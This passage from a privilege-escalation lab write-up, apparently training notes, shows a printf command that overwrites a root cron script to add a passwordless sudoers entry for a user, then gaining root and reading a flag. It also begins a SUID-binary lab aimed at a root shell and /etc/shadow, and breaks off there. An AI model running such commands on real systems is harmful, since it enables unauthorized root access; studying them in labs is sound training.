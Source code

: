 As the script file is writable by the current student user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operations. But, the file can’t be modified directly as there is no text editor on the system.

```shell
vim /usr/local/share/copy.sh
vi /usr/local/share/copy.sh
nano /usr/local/share/copy.sh
# command not found

# Use printf to replace the original code with the following lines.
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

# On execution, these lines will add a new entry to the /etc/sudoers file which will allow the student user to use sudo without providing any password.

cat /usr/local/share/copy.sh

# Check the current sudoers list.
sudo -l

# Switch to the root user using sudo.
sudo su

# Collect the flag from the root directory.
cd /root
ls -l
cat flag
```

### 2.2. Exploiting SUID Binaries

Vulnerable setuid on Linux systems could lead to privilege escalation attacks. In this lab, we will look at how to exploit them. On the target machine, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in the home directory welcome and greetings which might be vulnerable.

**Objective:**
- Get a root shell on the system
- View /etc/shadow
- Retrieve the flag.

```shell
ping -c 1 <target_IP>
# Open firefox, and access the target machine's terminal at http://target.ine.local:8000
# Check the contents of the student's directory.
pwd
ls -l
# We see two binaries there, greeting and welcome. We can also notice the 's' which stants from SUID permission.
# -rwsr-xr-x 1 root root 8344 Sep 22 2018 welcome
```

Observe that the welcome binary has suid bit set (or on). This means that this binary and its child processes will run with root privileges. Check the file type.
